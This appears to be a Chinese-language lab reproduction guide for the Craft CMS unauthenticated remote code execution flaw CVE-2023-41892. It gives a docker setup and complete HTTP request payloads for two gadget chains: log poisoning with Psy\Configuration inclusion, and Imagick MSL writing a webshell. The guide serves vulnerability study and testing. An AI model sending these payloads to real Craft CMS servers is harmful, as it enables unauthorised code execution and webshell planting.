





# CraftCMS未授权远程代码执行漏洞（CVE-2023-41892）

Craft CMS是一个灵活、用户友好的内容管理系统，用于在Web上创建自定义的数字体验。它为用户提供了一个后端界面来实现网站并配置CMS。

Craft CMS 4.4.0至4.4.14版本中存在一个远程代码执行漏洞。未经身份验证的攻击者可以通过`ConditionsController`实现远程代码执行。该漏洞存在于控制器的`beforeAction`方法中，由于输入验证不足，攻击者可以利用该漏洞创建任意对象并实现代码执行。

参考链接：

- <https://github.com/craftcms/cms/security/advisories/GHSA-4w8r-3xrw-v25g>
- <https://blog.calif.io/p/craftcms-rce>
- <https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/>

## 环境搭建

执行如下命令启动一个存在漏洞的Craft CMS 4.4.14环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8088/admin/install`即可看到CraftCMS的安装页面。请按照页面提示完成安装，默认数据库地址为`db`，用户名和密码均为`root`。



## 漏洞复现

漏洞的根本原因是攻击者可以通过PHP对象注入发送特制的HTTP请求来创建任意对象。通过链接代码库中的多个gadget，攻击者可以实现远程代码执行。

有两种常用的gadget组合可以实现远程代码执行。

### Gadget 1：使用`craft\elements\conditions\users\UserCondition`和`\Psy\Configuration`

这个gadget需要服务器开启日志记录功能，该功能默认是开启的。

首先，发送一个包含语法错误的JSON的POST请求，将payload写入日志文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
aaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaa
<?php
@phpinfo(); __halt_compiler();
?>
}
```



然后，通过`\Psy\Configuration` gadget包含日志文件来触发远程代码执行（请将`2025-03-31`替换为当前日期）：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: application/json

{
  "config": {
    "name": "test",
    "as xyz": {
      "class": "\\Psy\\Configuration",
      "__construct()": {
        "config": {
          "configFile": "../storage/logs/web-2025-03-31.log"
        }
      }
    }
  },
  "test": "craft\\elements\\conditions\\users\\UserCondition"
}
```



如图所示，PHPINFO成功执行。

### Gadget 2：使用`craft\elements\conditions\users\UserCondition`和内置的`Imagick`类

如果服务器启用了Imagick扩展，可以使用`Imagick`类的MSL格式来写入任意文件：

```
POST /index.php?action=conditions/render HTTP/1.1
Host: localhost:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarytlNPtAxuuGOeUqqY

------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="test"

craft\elements\conditions\users\UserCondition
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[name]"

test
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][class]"

imagick
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="config[as xyz][__construct()][0][0]"

vid:msl:/tmp/php*
------WebKitFormBoundarytlNPtAxuuGOeUqqY
Content-Disposition: form-data; name="file"; filename="1.msl"
Content-Type: text/plain

<?xml version="1.0" encoding="UTF-8"?>
<image>
  <read filename="caption:&lt;?=phpinfo();?&gt;"/>
  <write filename="info:webshell.php" />
</image>
------WebKitFormBoundarytlNPtAxuuGOeUqqY--
```

这个payload会执行类似`new Imagick('vid:msl:/tmp/php*');`的PHP代码，并导致"Segmentation fault"错误，使线程崩溃：



但是`webshell.php`文件已经成功写入：


